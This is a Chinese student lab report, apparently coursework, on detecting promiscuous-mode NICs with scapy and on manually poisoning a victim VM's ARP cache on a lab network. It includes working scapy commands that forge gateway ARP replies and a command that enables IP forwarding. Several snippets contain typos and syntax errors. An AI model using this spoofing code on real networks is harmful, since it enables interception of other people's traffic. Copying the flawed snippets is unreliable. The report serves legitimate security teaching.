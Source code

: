 # 第四章 网络监听实验

## 【实验环境】

#### 拓扑结构

![topology](img/topology.png)

#### 配置信息

|       拓扑角色        | **Ip地址**     | **网卡/物理地址**          |
| :-------------------: | -------------- | -------------------------- |
|         网关          | 172.16.111.1   | 08:00:27:ff:b8:28  /enp0s9 |
|        攻击者         | 172.16.111.141 | 08:00:27:0e:95:b9          |
| **受害者Kali-Victim** | 172.16.111.130 | 08:00:27:c5:c0:21 /eth0    |



## 【实验准备】

#### 安装scapy

在攻击者主机上安装好`scapy`

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy_install](img/scapy_install.png)



## 【实验过程】

#### 实验一：检测局域网中的异常终端

##### 1.检查网卡的混杂模式

```bash
#在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip_link_show](img/ip_link_show.png)

##### 2.开启`scapy`

```bash
# 在攻击者主机开启scapy
scapy
```

直接使用`scapy`开启后，对于下一步的操作，会出现：`Operation not permitted` 的报错，提示权限有问题，需要我们提升权限

```bash
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start_scapy](img/start_scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy_pkt](img/scapy_pkt.png)

##### 3.开启网卡的混杂模式

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡[混杂模式]
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set_promisc](img/set_promisc.png)

![ip_link_show_promisc](img/ip_link_show_promisc.png)

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt_difference](img/pkt_difference.png)

##### 4.关闭网卡的混杂模式

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

受害者主机没有开启混杂模式时，用`scapy`的`promiscping`进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

> 【注】：
>
> promiscping命令：
>
> - 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式：网卡只接受发给本机的包
>

![set_promisc_off](img/set_promisc_off.png)



#### 实验二：手工单步“毒化”目标主机的ARP缓存

【注】：以下代码均在攻击者主机 scapy 终端完成

##### 1.获取当前局域网的网关MAC地址

```bash
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

##### 2.伪造一个网关的ARP响应包

```bash
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，发现网关的MAC地址已被替换为攻击者主机的MAC地址

```
ip neigh
```

![replace_mac](img/replace_mac.png)

继续回到攻击者主机`scapy`终端

##### 3.恢复受害者主机的`ARP`缓存记录

```bash
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1

# 等ARP缓存刷新成功，退出ping

# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover_gw](img/recover_gw.png)



## 【遇到的问题】

##### 1.伪造的网关ARP相应包发不出去

这里再网上查资料得出，应该在构造ARP相应包时添加数据链路层Ether()

```bash
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
```

##### 2.`arp`表出错，无法污染

打开虚拟机IP转发功能

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



## 【参考资料】

- [网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)

- [Dot1029](https://github.com/CUCCS/2021-ns-public-Dot1029/tree/chap0x04/chap0x04)